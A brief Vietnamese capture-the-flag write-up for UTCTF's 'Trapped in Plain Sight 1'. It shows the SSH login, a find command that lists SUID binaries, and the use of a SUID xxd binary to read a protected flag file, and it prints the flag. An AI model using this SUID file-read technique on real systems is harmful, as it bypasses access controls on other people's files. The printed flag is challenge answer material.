



# Trapped in Plain Sight 1

- Chạy lệnh `ssh -p 4301 trapped@challenge.utctf.live` kết nối được tới server với user trapped.
- Kiểm tra lệnh `ls` thấy có file `flag.txt` nằm ở thư mục `/home/trapped`, tuy nhiên chỉ có người tạo file đó là `noaccess` có quyền đọc nên không thể đọc nó với quyền của người dùng hiện tại là `trapped`.

- Chạy lệnh `find / -perm -4000 -type f 2>/dev/null` để tìm kiếm các file có quyền SUID (Set User ID). Khi một file có bit SUID, nó sẽ chạy với quyền của chủ sở hữu file (thường là root) thay vì user chạy nó.

- 1 trong số đó có lệnh `/usr/bin/xxd` có vẻ khả nghi. Kiểm tra owner của file `ls -l /usr/bin/xxd`. Owner chính là `noaccess`, người tạo file `flag.txt`.
- Sử dụng lệnh này để cat file flag.txt sẽ lấy được flag `/usr/bin/xxd /home/trapped/flag.txt | xxd -r`

> **Flag:** utflag{SpeciaL_Permissionz}